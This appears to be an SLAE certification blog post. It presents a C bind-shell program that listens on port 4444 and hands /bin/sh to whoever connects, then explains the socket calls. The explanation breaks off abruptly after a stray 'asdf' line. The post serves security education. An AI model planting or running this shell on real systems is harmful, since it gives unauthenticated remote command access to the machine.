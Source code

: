 ## Assignment 0x01: Create A Shell_Bind_TCP Shellcode
---
```c
#include <stdio.h>
#include <unistd.h>
#include <sys/socket.h>
#include <netinet/in.h>

int main ()
{
    int sockfd = socket(AF_INET, SOCK_STREAM, 0);
    
    struct sockaddr_in addr;
    addr.sin_family = AF_INET;
    addr.sin_port = htons(4444);
    addr.sin_addr.s_addr = INADDR_ANY;

    bind(sockfd, (struct sockaddr *)&addr, sizeof(addr));
    listen(sockfd, 0);

    int connfd = accept(sockfd, NULL, NULL);
    for (int i = 0; i < 3; i++)
    {
        dup2(connfd, i);
    }

    execve("/bin/sh", NULL, NULL);
    return 0;
}
```
## Analysis of Shell_Bind_TCP.c
First, a TCP socket is created using the `socket` function. As described in `man 2 socket`, the function creates an endpoint for communication and returns a file descriptor that refers to that endpoint.

`socket()` expects a domain argument, a type argument, and a protocol argument.

`int sockfd = socket(AF_INET, SOCK_STREAM, 0);`

In this case, the domain argument `AF_INET` specifies the IPv4 communication protocol, the type argument `SOCK_STREAM` specifies the connection-based TCP standard for data exchange, and the protocol argument `0` indicates that the system should select the default protocol number based on the previously specified domain and protocol arguments.

Next, the `sockaddr_in` IP socket address struct is created which is used in the forthcoming `bind` method. 

From `man 7 in` man page: 
> an IP  socket address is defined as a combination of an IP interface address and a 16-bit (2 byte) port number.

asdf

_This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:_

<http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert>

_Student ID: SLAE-1469_

---
[Home](https://norrismw.github.io/SLAE)

